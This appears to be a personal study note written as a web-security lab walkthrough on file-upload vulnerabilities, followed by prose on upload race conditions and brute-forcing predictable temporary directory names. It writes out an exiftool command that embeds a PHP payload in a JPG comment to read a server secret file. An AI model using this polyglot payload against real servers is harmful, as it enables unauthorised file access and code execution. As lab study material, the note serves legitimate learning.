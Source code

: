 When i tried to upload a simple modified `.php` file into an `.jpg` file, it did not work, so, if i try to embed a comment into a `.jpg` file and then upload that file, i get this:

I will use `exiftool` for it, the following command is what i used:

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" cat.jpg -o carlos.php`

I used a cat image i downloaded, embedded the `php` malicious code and now, i uploaded it into the web server:


![](cybersecurity/images/Pasted%2520image%252020240923161046.png)

If i go to the path, i get this:
![](cybersecurity/images/Pasted%2520image%252020240923161122.png)

And, as we can see, we can read the content, it is highlighted between START and END:
![](cybersecurity/images/Pasted%2520image%252020240923161213.png)


## Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.

For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.

These vulnerabilities are often extremely subtle, making them difficult to detect during `blackbox` testing unless you can find a way to leak the relevant source code. 

### Race conditions in URL-based file uploads

Similar race conditions can occur in functions that allow you to upload a file by providing a URL. In this case, the server has to fetch the file over the internet and create a local copy before it can perform any validation.

As the file is loaded using HTTP, developers are unable to use their framework's built-in mechanisms for securely validating files. Instead, they may manually create their own processes for temporarily storing and validating the file, which may not be quite as secure.

#### Race conditions in URL-based file uploads - Continued

For example, if the file is loaded into a temporary directory with a randomized name, in theory, it should be impossible for an attacker to exploit any race conditions. If they don't know the name of the directory, they will be unable to request the file in order to trigger its execution. On the other hand, if the randomized directory name is generated using pseudo-random functions like `PHP's uniqid()`, it can potentially be brute-forced.
